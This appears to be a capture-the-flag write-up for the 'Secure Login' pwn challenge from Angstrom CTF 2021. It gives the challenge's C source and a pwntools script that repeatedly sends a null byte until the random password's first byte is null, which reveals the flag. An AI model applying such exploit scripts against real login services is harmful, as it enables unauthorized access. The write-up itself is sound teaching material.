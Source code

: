 ```yaml
---
name: Secure Login (2021)
event: Angstrom CTF 2021
category: Pwn
description: Writeup for Secure Login (pwn) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Secure Login

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/2pqG6opzrug/0.jpg)](https://youtu.be/2pqG6opzrug?t=23s "Angstrom 2021: Secure Login")

## Challenge Description

> My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

## Source

{% code overflow="wrap" %}
```c
#include <stdio.h>

char password[128];

void generate_password() {
	FILE *file = fopen("/dev/urandom","r");
	fgets(password, 128, file);
	fclose(file);
}

void main() {
	puts("Welcome to my ultra secure login service!");

	// no way they can guess my password if it's random!
	generate_password();

	char input[128];
	printf("Enter the password: ");
	fgets(input, 128, stdin);

	if (strcmp(input, password) == 0) {
		char flag[128];

		FILE *file = fopen("flag.txt","r");
		if (!file) {
		    puts("Error: missing flag.txt.");
		    exit(1);
		}

		fgets(flag, 128, file);
		puts(flag);
	} else {
		puts("Wrong!");
	}
}
```
{% endcode %}

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './login'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'warn'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Run program 1000 times (hoping for null byte)
for i in range(1000):
    io = start()
    io.recv()
    # Try to login with null byte
    io.sendline(b"\x00")
    io.recvuntil(': ')
    response = io.recv()
    # Did we get the flag?
    if(not b'Wrong!' in response):
        print(response)
    io.close()
```
{% endcode %}

Flag: `actf{if_youre_reading_this_ive_been_hacked}`

